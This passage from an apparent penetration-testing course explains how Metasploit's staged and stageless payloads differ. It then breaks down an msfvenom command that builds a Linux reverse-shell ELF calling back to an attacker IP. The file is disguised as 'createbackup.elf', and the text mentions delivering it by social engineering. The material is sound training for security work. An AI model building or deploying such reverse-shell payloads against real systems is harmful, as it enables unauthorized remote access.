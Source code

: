 </code></pre>
<p><code>What do you notice about the output?</code></p>
<p>We can see a few details that will help us understand payloads further. First of all, we can see that the payload naming convention almost always starts by listing the OS of the target (<code>Linux</code>, <code>Windows</code>, <code>MacOS</code>, <code>mainframe</code>, etc...). We can also see that some payloads are described as (<code>staged</code>) or (<code>stageless</code>). Let's cover the difference.</p>
<hr/>
<h2>Staged vs. Stageless Payloads</h2>
<p><code>Staged</code> payloads create a way for us to send over more components of our attack. We can think of it like we are "setting the stage" for something even more useful. Take for example this payload <code>linux/x86/shell/reverse_tcp</code>. When run using an exploit module in Metasploit, this payload will send a small <code>stage</code> that will be executed on the target and then call back to the <code>attack box</code> to download the remainder of the payload over the network, then executes the shellcode to establish a reverse shell. Of course, if we use Metasploit to run this payload, we will need to configure options to point to the proper IPs and port so the listener will successfully catch the shell. Keep in mind that a stage also takes up space in memory which leaves less space for the payload. What happens at each stage could vary depending on the payload.</p>
<p><code>Stageless</code> payloads do not have a stage. Take for example this payload <code>linux/zarch/meterpreter_reverse_tcp</code>. Using an exploit module in Metasploit, this payload will be sent in its entirety across a network connection without a stage. This could benefit us in environments where we do not have access to much bandwidth and latency can interfere. Staged payloads could lead to unstable shell sessions in these environments, so it would be best to select a stageless payload. In addition to this, stageless payloads can sometimes be better for evasion purposes due to less traffic passing over the network to execute the payload, especially if we deliver it by employing social engineering.  This concept is also very well explained by Rapid 7 in this blog post on <a href="https://www.rapid7.com/blog/post/2015/03/25/stageless-meterpreter-payloads/">stageless Meterpreter payloads</a>.</p>
<p>Now that we understand the differences between a staged and stageless payload, we can identify them within Metasploit. The answer is simple. The <code>name</code> will give you your first marker. Take our examples from above, <code>linux/x86/shell/reverse_tcp</code> is a staged payload, and we can tell from the name since each / in its name represents a stage from the shell forward. So <code>/shell/</code> is a stage to send, and <code>/reverse_tcp</code> is another. This will look like it is all pressed together for a stageless payload. Take our example <code>linux/zarch/meterpreter_reverse_tcp</code>. It is similar to the staged payload except that it specifies the architecture it affects, then it has the shell payload and network communications all within the same function <code>/meterpreter_reverse_tcp</code>. For one last quick example of this naming convention, consider these two <code>windows/meterpreter/reverse_tcp</code> and	<code>windows/meterpreter_reverse_tcp</code>. The former is a <code>Staged</code> payload. Notice the naming convention separating the stages. The latter is a <code>Stageless</code> payload since we see the shell payload and network communication in the same portion of the name. If the name of the payload doesn't appear quite clear to you, it will often detail if the payload is staged or stageless in the description.</p>
<hr/>
<h2>Building A Stageless Payload</h2>
<p>Now let's build a simple stageless payload with msfvenom and break down the command.</p>
<h4>Build It</h4>
<pre><code class="language-shell-session">[!bash!]$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf &gt; createbackup.elf

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
</code></pre>
<h4>Call MSFvenom</h4>
<pre><code class="language-shell-session">msfvenom
</code></pre>
<p>Defines the tool used to make the payload.</p>
<h4>Creating a Payload</h4>
<pre><code class="language-shell-session">-p 
</code></pre>
<p>This <code>option</code> indicates that msfvenom is creating a payload.</p>
<h4>Choosing the Payload based on Architecture</h4>